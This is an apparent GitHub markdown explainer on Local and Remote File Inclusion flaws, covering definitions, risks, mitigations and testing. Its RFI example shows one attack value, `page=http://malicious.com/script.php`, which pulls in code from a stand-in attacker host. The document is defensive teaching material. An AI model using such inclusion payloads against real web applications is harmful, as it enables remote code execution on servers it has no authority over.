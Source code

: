 
# 📄 Introduction to Local and Remote File Inclusion (LFI/RFI)

---

## 🌐 Introduction
Understanding Local and Remote File Inclusion vulnerabilities to secure web applications from unauthorized file access.

---

## 🔍 What are LFI and RFI?

### **Local File Inclusion (LFI):**
- **Definition:**  
  LFI occurs when a web application includes files on a server through the inclusion of user input.
- **Example:**  
  A web page retrieves and displays content from a file specified by a user without proper validation, such as `page=about.txt`.
- **Risk:**  
  Attackers can manipulate this to read sensitive files on the server.
- **Prevention:**  
  - Validate and sanitize all user inputs.
  - Avoid direct file path inclusion based on user input.

---

### **Remote File Inclusion (RFI):**
- **Definition:**  
  RFI allows an application to include remote files using user-controlled input.
- **Example:**  
  A URL parameter that takes a file path can be exploited to include malicious files from a different domain, like `page=http://malicious.com/script.php`.
- **Risk:**  
  This can lead to code execution on the server from external sources.
- **Prevention:**  
  - Ensure only local file paths are accepted.
  - Configure server settings to disallow remote file inclusion.

---

## 📊 LFI vs. RFI: Key Differences

- **Source of Files:**  
  - **LFI:** Files are included from the local server.  
  - **RFI:** Files are included from a remote server or URL.
- **Control:**  
  - **LFI:** Typically requires less stringent server configurations to exploit.  
  - **RFI:** Often requires specific server configurations allowing external URLs to be fetched.

---

## 🛠️ Mitigation Strategies

- **Configuration:**  
  Adjust PHP settings to disable `allow_url_include`.
- **Input Sanitization:**  
  Use a whitelist for file inclusion. Ensure all input is validated against a list of allowed files.
- **Error Handling:**  
  Configure proper error handling to prevent information leaks that could help an attacker.

---

## ✅ Testing for LFI/RFI

### Tools and Techniques:
- Utilize security scanners that specifically test for path traversal and file inclusion vulnerabilities.
- **Manual Testing:**  
  - Try including system files (for LFI) or linking to external test scripts (for RFI) in parameters where file paths are expected.

---

## 📋 Summary

- **Key Takeaway:**  
  LFI and RFI are critical vulnerabilities that can allow attackers to read or execute files unlawfully.
- **Importance:**  
  Understanding and mitigating these vulnerabilities are essential for securing web applications.

---

## 🔄 Next Steps

1. **Review Web Applications:**  
   Audit all places where file inclusion is used.
2. **Educational Resources:**  
   Continually educate developers about secure coding practices.
